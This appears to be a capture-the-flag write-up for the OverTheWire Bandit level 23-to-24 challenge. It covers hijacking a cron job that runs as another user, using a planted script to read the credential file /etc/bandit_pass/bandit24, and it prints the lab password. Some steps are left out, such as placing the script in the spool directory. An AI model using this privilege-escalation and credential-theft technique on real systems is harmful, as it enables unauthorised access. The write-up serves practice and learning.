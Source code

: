 # Level goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Solution

1. Same as before check what files relate to this challenge in the /etc/cron.d directory.
```Bash
ls /etc/cron.d
```

2. View the relevant file.
```Bash
cat /etc/cron.d/cronjob_bandit24
```

3. View the bash script that runs using that cron file.
```Bash
cat /usr/bin/cronjob_bandit24.sh
```

The script executes another script which is in the /var/spool directory. This at first seemed unimportant and could be managed by running the script by itself. But then i noticed that the owner of that script was bandit24 and anything that ran within that script would have the same privileges (the same for the cron file and the directory /var/spool/bandit24).

After acknowledging that the runs with bandit24 privilages, we can use this to get the password from the /etc/bandit_pass directory.

4. Create a directory in tmp to work in.
```Bash
mkdir /tmp/bandit24
```

5. Create the file to store the password in.
```Bash
touch bandit24pass
```

6. Since the file is going to be written in using other users we need to change its permission.
```Bash
chmod 666 bandit24pass
```
Note that the only important thing we care about is making other users able to write in this file, so effectively ```chmod 002 bandit24pass``` would essentially work.

7. Create the bash script to copy the password to the file created.
```Bash
nano test.sh
```

8. Write the bash script as below.
```Bash
#! /bin/bash
 cat /etc/bandit_pass/bandit24 > /tmp/bandit24/bandit24pass
 ```
 9. change the script to be exectuable by other users.
 ```Bash
 chmod 777 test.sh
 ```
 Note that we only need to be exectuable by other users, so ```chmod 001 test.sh``` would still work.
 
 The script would now run from the cron file and the password would be saved in the file.
 
 10. View the password after the script had run.
 ```Bash
 cat bandit24pass
 ```
 The password should be visible now.
 
 11. Exit bandit23 shell
 ```Bash
 exit
 ```
 
 12. ssh into bandit24
 ```Bash
 ssh bandit24@bandit.labs.overthewire.org -p 2220
 ```
 Password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
 
 
